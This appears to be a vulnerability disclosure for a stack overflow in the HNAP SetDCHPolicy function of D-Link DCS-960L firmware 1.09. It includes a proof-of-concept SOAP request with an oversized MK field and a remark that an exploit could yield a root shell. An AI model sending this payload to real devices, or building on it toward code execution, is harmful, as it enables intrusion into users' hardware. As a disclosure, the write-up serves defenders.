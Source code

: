 # DCS-960L 1.09 Stack overflow

## Product Info

**Supplier**: [Smart Home, SMB and Enterprise solutions | D-Link (dlink.com)](https://www.dlink.com/en)

**Router model**: DCS-960L

**Router Version**: 1.09

**Firmware**: [D-Link Technical Support (dlinktw.com.tw)](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L)


## Vulnerability introduction

  A stack overflow vulnerability in the SetDCHPolicy function of the HNAP service of D-Link DCS-960L with firmware version 1.09 allows an attacker to execute arbitrary code.



## Vulnerability analysis



In HNAP's SetDCHPolicy function, by constructing MK, the program does not check the length of the MK field, causing a stack overflow.

![image](https://github.com/user-attachments/assets/eec2b9b7-309a-4bd8-a8cd-148e3cef7dd5)

![image](https://github.com/user-attachments/assets/b26de367-7cd4-4f66-ade5-5dfa21a29ff2)


## POC



```xml
SOAPAction: http://192.168.0.1/HNAP1/Login
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetDCHPolicy xmlns="http://192.168.0.1/HNAP1/">
      <PolicyList>
        <PolicyInfo>
          <MK> a * 160000 </MK>
        </PolicyInfo>
      </PolicyList>
    </SetDCHPolicy>
  </soap:Body>
</soap:Envelope>
```
You can write exp to further obtain the root shell
